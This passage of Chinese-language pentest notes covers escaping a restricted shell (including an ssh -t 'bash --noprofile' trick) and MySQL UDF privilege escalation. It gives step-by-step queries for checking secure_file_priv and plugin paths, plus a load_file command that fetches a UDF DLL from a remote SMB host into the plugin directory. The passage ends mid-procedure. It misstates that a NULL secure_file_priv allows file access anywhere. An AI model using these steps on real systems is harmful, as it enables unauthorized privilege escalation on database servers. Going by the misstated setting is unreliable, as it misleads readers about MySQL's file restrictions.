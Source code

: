 ```
bash,sh,dash绕过
默认能执行bash,sh,dash命令
用编程语言绕过
使用python，perl调用/bin/bash进行切换
ssh绕过
可以通过连接时强行指定分配终端
```
ssh user@ip -t "bash --noprofile"
```
### MySQL 提权
分类：udf提权、mof提权、启动项提权
#### udf提权
**条件**
能远程连接数据库
具有写入权限。即 secure_file_priv值为空
MySQL的登录账户为root权限
##### 基础知识
UDF（user defined function）用户自定义函数，为mysql的拓展接口，可以为mysql创建自定义函数
##### 操作
**查看是否具有写入权限**
```
show global variables like '%secure%';
select @@secure_file_priv;
```
secure_file_priv的取值：
1、NULL：表示没有指定secure_file_priv的值，这意味着MySQL服务器可以从任何位置读取和写入文件。

2、空字符串（''）：表示secure_file_priv被设置为空字符串，这意味着MySQL服务器可以从任何位置读取和写入文件。

3、一个目录路径：表示secure_file_priv被设置为指定的目录路径，这意味着MySQL服务器只能从该目录中读取和写入文件。这是最常见的情况，也是安全性最高的设置。
**查看系统以及版本**
```
select  @@version_compile_os,@@version_compile_machine;
show variables like '%complie%';
```
**确定上传路径**
MySQL<5.0
```
任意路径
```
5.0<=MySQL<5.1
```
服务器系统目录
```
MySQL>5.1
```
select  @@plugin_dir;
show variables like '%plugin%';
```
**配置文件路径**
```
show variables like '%config_file%';
```
**myql安装路径**
```
select @@basedir;
```
**上传UDF动态链接库文件**
sqlmap自带该文件，metasploit查找也行

+ 远程上传文件
```
select load_file('\\\\192.168.0.19\\network\\lib_mysqludf_sys_64.dll') into dumpfile 
"D:\\MySQL\\mysql-5.7.21-winx64\\mysql-5.7.21-winx64\\lib\\plugin\\udf.dll";
```
+ 直接写入字符串
```